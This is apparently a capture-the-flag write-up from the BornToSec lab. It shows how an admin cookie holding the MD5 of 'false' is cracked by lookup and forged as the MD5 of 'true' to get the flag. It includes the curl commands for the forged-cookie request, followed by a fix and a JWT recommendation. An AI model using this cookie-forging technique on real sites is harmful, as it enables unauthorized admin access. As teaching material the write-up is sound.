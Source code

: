 # Insecure admin cookie authentication

## 📖 Vulnerability Explanation
The admin cookie is set to a static hash value, which can be modified by the user. This can lead to unauthorized access to admin protected resources.

## ⚙️ Exploitation Process
The token used to authenticate as an admin in the page is an md5 hash. 

In order to crack it, we can use system tools, such as ```john``` or ```hashcat```, or online services. We chose https://crackstation.net/ and it revealed that the value for the md5 hash was the string "false".

We can generate a new token with the md5 hash of the string "true" to authenticate as the admin user.

---

**1. Retrieve the token value using curl**

```
curl -s -I 'http://BornToSec.com/index.php'
```

---

**2. Check the hash value**

![](./CrackStation.png)

---

**3. Generate the new hash for the token:**

```
echo -n 'true' | md5sum
```

---

**4. Setting the value to the hash of the string "true" gives us the flag:**

```
curl -s -H 'Cookie: I_am_admin=b326b5062b2f0e69046810717534cb09' 'http://BornToSec.com/index.php' | grep Flag
```

## 🧰 Additional Resources Used
We used ```https://crackstation.net/``` to crack the hash. This page doesn't really _crack_ the hash you provide, but performs a lookup on pre-computed hashes instead.

## 🔧 Fix
The server should set the cookie for admin users after authentication. The value should not be a static hash, but a cookie controlled by the system with an expiry date.

## ☝️🤓 Advanced explanation
We advise using a **Json Web Token (JWT)** to protect the authentication system and keep the admin check implementation. This token would be signed by the server and it would also contain information about the user, such as their permissions.
This approach requires a secret to sign the tokens, but it requires less computational resources, as it avoids storing cookies in memory and querying the database to check if a user is an admin.

The json content of the JWT would look like this: 
```
{
    "email": "svetlana@BornToSec.com",
    "isAdmin": true
}
```